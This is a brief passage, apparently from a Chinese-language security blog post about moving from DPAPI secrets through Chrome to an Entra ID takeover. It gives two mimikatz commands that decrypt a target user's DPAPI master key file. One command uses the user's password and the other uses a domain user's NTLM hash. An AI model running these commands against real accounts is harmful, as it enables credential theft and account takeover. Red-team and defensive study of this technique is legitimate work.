 ```powershell
dpapi::masterkey /in:"<Path to MASTER_KEY_FILE>" /sid:"<USER_SID>" /password:"<USER_PASSWORD>" /protected
```

![image-20250929122100356](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929122100356.png)

如果是目标用户为域用户，也可以使用其密码的哈希值进行解密：

```powershell
dpapi::masterkey /in:"<Path to MASTER_KEY_FILE>" /sid:"<USER_SID>" /hash:"<USER_NTLM_HASH>" /protected
```
